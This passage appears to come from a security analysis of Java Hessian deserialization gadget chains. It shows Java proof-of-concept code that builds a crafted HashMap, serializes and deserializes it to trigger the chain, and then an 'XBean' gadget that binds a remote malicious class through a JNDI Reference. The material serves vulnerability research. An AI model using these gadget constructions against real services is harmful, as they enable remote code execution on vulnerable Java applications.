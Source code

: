 ```java
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(
true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, qName, qName, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, xString, xString, null));
        setFieldValue(hashMap, "table", tbl);

        // Hessian serializes data
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        HessianOutput hessianOutput = new HessianOutput(byteArrayOutputStream);
        AllowNonSerializableFactory serializableFactory = new AllowNonSerializableFactory();
        serializableFactory.setAllowNonSerializable(true);
        hessianOutput.setSerializerFactory(serializableFactory);
        hessianOutput.writeObject(hashMap);
        byte[] serializedData = byteArrayOutputStream.toByteArray();
        System.out.println("Hessian serialized data is: " + new String(serializedData, 0, serializedData.length));

        // Hessian deserializes data
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(serializedData);
        HessianInput hessianInput = new HessianInput(byteArrayInputStream);
        hessianInput.readObject();
    }
}
```

<div align=center><img src="./images/8.png"></div>

## XBean
### Construct Analysis
 - Like `ResinGadget`, first create a `ReadOnlyBinding` object to bind the remote malicious class, and then call the `MarshallerBase#makeToStringTriggerUnstable` method.

```java
public interface XBean extends Gadget {

    @Args ( minArgs = 2, args = {
        "codebase", "classname"
    }, defaultArgs = {
        MarshallerBase.defaultCodebase, MarshallerBase.defaultCodebaseClass
    } )
    default Object makeXBean ( UtilFactory uf, String[] args ) throws Exception {
        Context ctx = Reflections.createWithoutConstructor(WritableContext.class);
        Reference ref = new Reference("foo", args[ 1 ], args[ 0 ]);
        ReadOnlyBinding binding = new ReadOnlyBinding("foo", ref, ctx);
        return uf.makeToStringTriggerUnstable(binding); // $NON-NLS-1$
    }

}
```
